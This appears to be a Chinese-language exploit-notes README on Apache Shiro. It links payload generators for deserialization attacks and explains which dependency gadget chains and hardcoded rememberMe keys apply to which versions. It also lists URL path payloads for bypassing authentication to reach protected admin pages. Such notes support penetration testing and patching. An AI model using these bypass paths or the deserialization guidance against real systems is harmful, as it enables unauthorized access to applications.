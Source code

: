 ## Shiro反序列化
- [Java版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/ShiroDeser.java)
- [Python版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/shiro_deser.py)

### 反序列化利用链
从Shiro-core官方的pom.xml文件中可以看出，在项目通过pom.xml引入shiro-core时，会自动引入commons-beanutils。当shiro-core的版本改变时，CB的版本也会随之改变。通过测试发现，shiro从1.2.4到1.3.2依赖的都是CB-1.8.3。而在shiro-1.3.2的下一个版本1.4.0中依赖的CB是1.9.3，从这个shiro版本开始，引入shiro依赖的项目会依赖CC3.2.2。
参考：
- https://github.com/apache/commons-beanutils/blob/BEANUTILS_1_9_1/pom.xml#L278
- https://github.com/apache/shiro/blob/shiro-root-1.4.0/pom.xml#L832
- https://github.com/apache/shiro/blob/shiro-root-1.3.2/pom.xml
- https://github.com/apache/shiro/blob/shiro-root-1.2.4/pom.xml#L617

### 说明
- 1.2.4的key硬编码在`org\apache\shiro\mgt\AbstractRememberMeManager.java`这个文件里；
- 1.2.4以上（1.2.5开始）的key在AbstractRememberMeManager构造方法里是这样写的：
```java
this.setCipherKey(cipherService.generateNewKey().getEncoded());
```
可以直接调这个接口，这样得到的key就是随机的。当然开发者也可以通过配置文件配置，比如`shiro.ini`, `xxx-shiro-xml`等制定一个自己实现的RememberMeManager（继承自`CookieRememberMeManager`），然后`applications.properties`里面配置这个硬编码的seed。如果攻击者知道了这个seed，可以方便地拿到shiro的key。
- 1.4.2以后，从`CBC`模式变成了`GCM`模式，需要相应地修改一下代码。

## Shiro权限绕过
比如想要访问的敏感url为：
```
/admin/index
```
假设`/static` 路径不需要认证即可访问。

绕过姿势：
- /admin/index/
- /;/admin/index
- /static;/admin/index
- /static;/../admin/index
- /static/..;/admin/index
- /admin/index%25%32%46index
- /admin/%3bindex


## 参考
- https://www.cnblogs.com/loong-hon/p/10619616.html
- https://www.codenong.com/cs106643678/
- [Shiro权限验证绕过史](https://s31k31.github.io/2020/08/20/Shiro_Authentication_Bypass/)
- [Shiro反序列化漏洞笔记二（检测篇）](http://xiashang.xyz/2020/09/05/Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%AC%94%E8%AE%B0%E4%BA%8C%EF%BC%88%E6%A3%80%E6%B5%8B%E7%AF%87%EF%BC%89/)
